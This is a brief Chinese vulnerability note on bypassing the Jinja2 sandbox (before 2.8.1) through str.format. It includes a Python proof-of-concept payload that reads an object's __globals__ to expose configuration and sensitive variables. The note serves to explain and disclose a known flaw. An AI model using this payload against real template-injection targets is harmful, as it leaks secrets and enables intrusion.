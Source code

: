 参考：
	- https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html#jinja-281
	- https://www.palletsprojects.com/blog/jinja-281-released/

（Jinja2.8.1）

Jinja2在防御SSTI（模板注入漏洞）时引入了沙盒机制，也就是说即使模板引擎被用户所控制，其也无法绕过沙盒执行代码或者获取敏感信息。

但由于format带来的字符串格式化漏洞，导致在Jinja2.8.1以前的沙盒可以被绕过，进而读取到配置文件等敏感信息。


poc
```python
from jinja2.sandbox import SandboxedEnvironment
env = SandboxedEnvironment()
class User(object):
	def __init__(self, name):
		self.name = name
pp='{ "{0.__class__.__init__.__globals__}".format(user) }'
t = env.from_string(pp)
t.render(user=User('joe'))
```
pp变量的第一个`{`和最后一个`}`应时2个`{`或2个`}`。github pages有渲染错误，只能改成这样。
成功读取到当前环境所有变量__globals__